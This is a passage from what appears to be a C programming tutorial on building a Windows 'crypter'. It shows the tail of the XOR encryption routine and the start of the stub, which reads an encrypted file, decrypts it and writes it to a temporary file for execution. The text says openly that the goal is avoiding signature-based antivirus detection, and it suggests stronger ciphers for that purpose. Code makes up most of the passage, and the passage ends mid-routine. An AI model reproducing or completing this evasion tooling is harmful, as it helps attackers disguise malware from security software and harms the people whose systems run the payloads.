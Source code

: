 ```c
        free(lpFileBytes);
    }

    return EXIT_SUCCESS;
}
```

And that’s pretty much it for the crypter section. Note that we’ve used a simple XOR to encrypt the contents of the file which _might_ not be enough if we have a small key. If we wanted to be more on the safe side, we can use other encryption schemes such as RC4 or (x)TEA. We do not require full-fledged unbroken cryptoalgorithms since the purpose is to avoid signature-based detection and would hence be complete overkill. Keep it small and simple.

Let’s continue onto the stub routine. For the stub, we want to retrieve the encrypted file in its current directory and then write the decrypted contents into a temporary file for execution.

We’ll begin by getting the current director, then opening the file and getting the file size.

```c
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    if (__argc < 2) {
        // stub routine
        // get target encrypted file
        CHAR szEncryptedFileName[MAX_PATH];
        GetCurrentDirectory(MAX_PATH, szEncryptedFileName);
        strcat(szEncryptedFileName, "\\");
        strcat(szEncryptedFileName, CRYPTED_FILE);

        // get handle to file
        HANDLE hFile = CreateFile(szEncryptedFileName, FILE_READ_ACCESS, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

        // get file size
        DWORD dwFileSize = GetFileSize(hFile, NULL);
    } else {
        // crypter routine
    }

    return EXIT_SUCCESS;
}
```

Pretty much the same as the crypter routine. Next, we will read the file contents and get the decrypted bytes. Since the XOR operation restores values given a common bit, we can simply reuse the `Crypt` function. After that, we will need to create a temporary file and write the decrypted bytes into it.

```c
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    if (__argc < 2) {
        // stub routine
        
        ...

        // decrypt and obtain decrypted bytes
        LPVOID lpFileBytes = Crypt(hFile, dwFileSize);
        CloseHandle(hFile);

        // get file in temporary directory
        CHAR szTempFileName[MAX_PATH];
        GetTempPath(MAX_PATH, szTempFileName);
        strcat(szTempFileName, DECRYPTED_FILE);

        // open handle to temp file
        HANDLE hTempFile = CreateFile(szTempFileName, FILE_WRITE_ACCESS, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
```